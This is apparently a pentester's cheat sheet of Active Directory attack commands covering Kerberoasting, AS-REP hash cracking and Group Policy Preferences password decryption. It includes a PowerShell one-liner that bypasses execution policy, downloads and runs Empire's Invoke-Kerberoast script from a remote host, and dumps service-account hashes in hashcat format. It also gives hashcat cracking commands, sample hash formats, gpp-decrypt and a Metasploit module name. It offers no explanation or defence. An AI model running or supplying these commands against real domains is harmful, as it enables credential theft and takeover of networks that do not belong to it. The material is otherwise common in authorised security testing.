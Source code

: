 AD

**KERBEROASTING**

Enumerating Accounts in SPN (Service Principal Name):

Powershell Commands when Accessible

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
setspn -T "DOMAIN\USER" -Q ​ */*
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
powershell.exe -NoP -NonI -Exec Bypass IEX (New-Object Net.WebClient).DownloadString('http://10.13.7.30/Windows/Powershell/Empire/module_source/credentials/Invoke-Kerberoast.ps1');Invoke-Kerberoast -erroraction silentlycontinue -OutputFormat Hashcat
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Decrypt etype23 Hashes from Kerberoasted passwords:

format::
$krb5tgs$23$*SQLService$CONTROLLER.local$CONTROLLER-1/SQLService.CONTROLLER.local:30111*$A88A8D57DAEBC82CC......

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
hashcat -m 13100 -​a 0 hash.txt wordlist --force
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Decrypt etype23 Hashes from AS-REP passwords:

format::
$krb5asrep$Admin2@CONTROLLER.local:C669E64E38F0BDC104039C58......

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
hashcat -m 18200 hash.txt Pass.txt
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

**GPP**

https://www.rapid7.com/blog/post/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage/

Relies on groups.xml found in sysvol

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
gpp-decrypt Hash
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Metasploit post module

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
smb_enum_gpp
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
